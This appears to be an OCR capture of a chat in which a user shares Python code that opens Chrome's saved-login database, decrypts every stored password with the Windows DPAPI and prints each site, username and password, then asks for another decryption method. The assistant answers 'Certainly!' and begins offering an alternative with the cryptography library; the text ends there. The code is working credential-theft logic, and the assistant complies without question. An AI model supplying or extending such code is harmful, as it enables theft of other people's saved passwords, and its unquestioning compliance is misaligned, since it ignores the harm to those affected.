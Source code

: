     # Path to Chrome's password database

    password_db_path = os.path.join(os.getenv('LOCALAPPDATA'), 'Google', 'Chrome', 'User Data', 'Default', 'Login Data')



    # Connect to the password database

    conn = sqlite3.connect(password_db_path)

    cursor = conn.cursor()



    # Execute the query to fetch the encrypted passwords

    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")



    # Fetch all the results

    password_entries = cursor.fetchall()



    # Decrypt and print the passwords

    for entry in password_entries:

        url = entry[0]

        username = entry[1]

        encrypted_password = entry[2]

        decrypted_password = win32crypt.CryptUnprotectData(encrypted_password, None, None, None, 0)[1]

        print(f"URL: {url}\nUsername: {username}\nPassword: {decrypted_password.decode()}\n")



    # Close the database connection

    cursor.close()

    conn.close()



decrypt_chrome_passwords() can you use other type of Decryption 
**ASSISTANT**: Certainly! There are alternative methods for decrypting Chrome passwords. One such method is using the `cryptography` library in Python. Here's an example of using this library to decrypt Chrome passwords:
